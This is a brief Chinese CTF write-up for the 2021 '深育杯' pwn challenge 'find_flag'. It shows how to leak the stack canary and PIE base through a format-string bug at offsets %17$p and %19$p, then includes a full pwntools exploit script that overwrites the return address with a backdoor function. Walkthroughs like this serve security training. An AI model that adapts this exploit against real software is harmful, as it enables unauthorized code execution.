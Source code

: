 # [深育杯 2021]find_flag

这里还是要查看保护

![image-20250204123014062](./../images/image-20250204123014062.png)

发现保护全开

并且这里有一个格式化字符串漏洞

因此可以通过这个来泄露canary和pie

![image-20250204124026247](./../images/image-20250204124026247.png)

这里可以发现cananry

![image-20250204124101875](./../images/image-20250204124101875.png)

并且找到了pie的偏移地址计算的位置

![image-20250204124322865](./../images/image-20250204124322865.png)

因此我们的格式化字符串的位置为%17$p和%19$p

所以我们的exp：

```python
from pwn import*

p=process("/home/fofa/find_flag")
# p=remote("node4.anna.nssctf.cn",28914)
payload1='%17$paaa%19$p'
p.recvuntil("name?")
p.sendline(payload1)
# gdb.attach('b *$rebase(0x0132F)')
buf=p.recvuntil("!").decode()

tmp=buf.split(" ")[5].split("aaa")[0]
canary=int(tmp,16)
tmp=buf.split("aaa")[1].split("!")[0]
re_addr=int(tmp,16)
base_addr=re_addr-0x0146F
#print(type(base_addr))

back_door=base_addr+0x122E
payload2=b'a'*(0x40-0x8)+p64(canary)+b'a'*8+p64(back_door)
p.recvuntil(" else? ")
p.sendline(payload2)
p.interactive()
```

